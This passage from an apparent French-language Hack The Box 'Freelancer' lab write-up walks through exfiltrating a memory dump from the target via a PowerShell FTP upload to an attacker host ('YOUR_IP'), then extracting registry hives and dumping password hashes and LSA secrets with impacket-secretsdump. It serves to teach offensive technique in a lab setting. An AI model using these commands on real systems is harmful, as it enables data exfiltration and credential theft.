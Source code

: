 Sur la cible, nous exécutons la commande suivante.

```
(New-Object Net.WebClient).UploadFile('ftp://YOUR_IP/MEMORY.7z', 'C:\Users\mikasaAckerman\Desktop\MEMORY.7z')
```

![MEMORY.7z File upload](/images/HTB-Freelancer/file_upload.png)

Après quelques minutes, nous obtenons l'archive, nous l'extrayons avec `7z x MEMORY.7z` et nous nous retrouvons avec un fichier nommé `MEMORY.DMP`.

> Vous pouvez installer 7z avec `sudo apt-get install p7zip-full`.

![Memory dump file](/images/HTB-Freelancer/memory_dump_file.png)

Nous utilisons [MemProcFS](https://github.com/ufrisk/MemProcFS) pour examiner le vidage de mémoire. Tout d'abord, nous devons installer toutes les dépendances.

```
sudo apt-get install libusb-1.0 fuse openssl lz4
```

Ensuite, nous téléchargeons l'archive depuis Github [ici](https://github.com/ufrisk/MemProcFS/releases/tag/v5.11). Après l'avoir extrait, exécutez la commande ci-dessous.

> Si l'opération de montage échoue et que vous obtenez `fuse : failed to access mountpoint /mnt/memprocfs : No such file or directory`, créez le répertoire dans `/mnt`.

```
sudo ./memprocfs -f <MEMORY.DMP file location> -forensic 1 -mount /mnt/memprocfs
```

![MemProcFS command](/images/HTB-Freelancer/memprocfs_command.png)

Nous avons besoin d'être root pour accéder au répertoire monté.

![MemProcFS mounted directory](/images/HTB-Freelancer/memory_mnt.png)

Dans `/mnt/memprocfs/registry/hive_files` nous trouvons les fichiers bruts de la ruche du registre Windows extraits du vidage de la mémoire. À partir de là, nous utiliserons les fichiers nécessaires pour trouver des informations sensibles:

* **SAM (Security Account Manager)**: Cette ruche contient des informations sur les comptes d'utilisateurs et les mots de passe hachés des utilisateurs locaux.
* **SYSTEM**: Elle comprend généralement des informations sur le système, telles que la configuration des pilotes, les paramètres du matériel, etc. De plus, elle détient également la clé nécessaire pour décrypter les mots de passe stockés dans la ruche SAM.
* **SECURITY**: Toutes les informations relatives à la sécurité sont stockées ici, y compris les attributions de droits, les stratégies de compte et les secrets LSA cryptés (qui peuvent contenir des informations d'identification de domaine mises en cache et d'autres données sensibles).

![hive files list](/images/HTB-Freelancer/hive_files.png)

```
impacket-secretsdump -sam 0xffffd3067d935000-SAM-MACHINE_SAM.reghive -system 0xffffd30679c46000-SYSTEM-MACHINE_SYSTEM.reghive -security 0xffffd3067d7f0000-SECURITY-MACHINE_SECURITY.reghive local
```
